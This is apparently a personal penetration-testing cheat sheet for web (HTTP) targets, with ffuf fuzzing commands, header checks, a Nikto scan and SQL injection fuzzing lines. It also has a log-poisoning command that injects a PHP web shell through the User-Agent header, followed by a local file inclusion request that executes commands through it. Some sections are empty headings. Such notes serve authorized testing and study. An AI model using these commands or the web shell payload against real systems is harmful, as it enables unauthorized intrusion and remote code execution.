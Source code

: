# Hypertext Transfer Protocol

### Source Code Review

_Review source code and Page Contents With Burp Suite/Site Map. Add Target Scope under Target > Scope > Add_

_View Landing Page /_

_Add domain or hostname to Kali /etc/hosts file and review landing page /_

### General Scoping

* _Discover Potential Filename patterns for custom bruteforcing directories and files._
* _Discover usernames or email addresses with exiftool after downloading._
* _Discover HTTP Server Version._
* _Discover JavaScript Version._
* _Search For JavaScript Known Version Vulnerabilities._
* _Discover Web Application Name._
* _Discover Web Application Version._
* _Search For Web Application Known Version Vulnerabilities._
* _check certificate if applicable._
* _Discover Admin Login pages._
* _Test For default credentials._
* _Discover User Logins._
* _Discover User Registrations._

### View Certificate Information

_Browse to the `https://$ip/` and view the certificate_

### Server Header Information

```
curl -IL $webserver
```

### Fuzzing Sub-domains

{% code overflow="wrap" %}
```
ffuf -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u https://FUZZ.domain.com/
```
{% endcode %}

### Fuzzing VHOSTs

{% code overflow="wrap" %}
```
ffuf -w /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://domain.com/ -H 'Host: FUZZ.domain.com' -fs xxx
```
{% endcode %}

### Fuzzing Directories  Files Parameters

_Be sure to test both http and https_

_Extensions_

{% code overflow="wrap" %}
```
ffuf -w /opt/useful/SecLists/Discovery/Web-Content/web-extensions.txt -u http://domain.com/somedir/indexFUZZ -fc 404
```
{% endcode %}

_Directories_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip/FUZZ/ -fc 404
```
{% endcode %}

_Files_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

_Parameters_

GET

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://$ip/somefile?FUZZ=key
```
{% endcode %}

POST

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://domain.com/path/to/resource.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Values_

_values can be for example usernames, names, id's_

{% code overflow="wrap" %}
```
ffuf -w values.txt -u http://domain.com/path/to/resource.php -X POST -d 'someParameter=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx
```
{% endcode %}

_Random_

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -u http://$ip/FUZZ -fc 404
```
{% endcode %}

### Response Headers

_Search headers such as X-Powered-By. This may reveal vulnerable versioning_

```
curl -I http://$ip/
```

### Nikto Vulnerability Scanner

```
nikto -h http://$ip
```

### Command Injection

### Local File inclusion

{% code overflow="wrap" %}
```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt -u http://$ip/site/index.php?page=FUZZ
```
{% endcode %}

_Linux_

```
curl http://$ip/ -A "<?php system(\$_GET['cmd']);?>"
```

_Windows_

```
curl http://$ip/site/index.php\?page=../../path/to/log\&cmd=ipconfig
```

### Remote File inclusion

### SQL injection

#### **Authentication Bypass**

Manually confirm the results to then filter out unwanted responses by using --hh

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/quick-SQLi.txt -d "form" --hc 404 $url
```

```
wfuzz -c -w /usr/share/seclists/Fuzzing/SQLi/Generic-SQLi.txt -d "form" --hc 404 $url
```

### XXE

### XSS
